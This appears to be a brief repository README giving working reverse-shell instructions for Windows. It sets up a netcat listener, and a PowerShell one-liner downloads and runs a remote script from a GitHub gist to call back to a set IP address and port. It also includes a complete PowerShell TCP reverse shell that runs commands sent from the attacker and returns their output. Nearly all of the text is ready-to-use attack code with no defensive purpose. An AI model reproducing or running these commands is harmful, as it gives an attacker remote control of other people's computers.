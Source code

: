 ## Server side (port 80)
- Use 80/87
```
nc -lp 80
```

## Client side
- Paste in powershell and change ip address and port number
```ps
IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80
```

## Script
- Change the ip address in the "quotes" and the port (80)
```ps
$client = New-Object System.Net.Sockets.TCPClient("192.168.29.21",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd) + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1
